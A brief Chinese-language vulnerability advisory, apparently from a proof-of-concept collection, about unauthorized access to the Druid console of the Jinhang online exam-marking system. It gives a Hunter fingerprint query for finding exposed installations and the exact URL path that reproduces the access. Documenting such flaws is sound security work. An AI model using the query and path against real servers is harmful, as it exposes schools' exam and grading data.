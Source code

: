# 一、漏洞简介
衡水金航计算机科技有限公司是一家长期致力于图像标记识别采集技术及信息管理系统的软件企业。金航网上阅卷系统：可以广泛地应用于高考、中考、教育局组织的学校联考、各类学校自组织考试、各种行业考试、职称考试等。衡水金航计算机科技有限公司金航网上阅卷系统 druid 未授权访问漏洞

# 二、影响版本
+ 金航网上阅卷系统

# 三、资产测绘
+ hunter`web.body="js/insteadSelect/jquery.insteadSelect.css"`
+ 特征

![](images/1712746095587-c104fe7b-3112-450f-8cf2-0f1db1e10726.png)

# 四、漏洞复现
```http
/tqas/druid/index.html
```

![](images/1720083646298-4fa0c564-754e-43f0-81a5-6195374184a6.png)

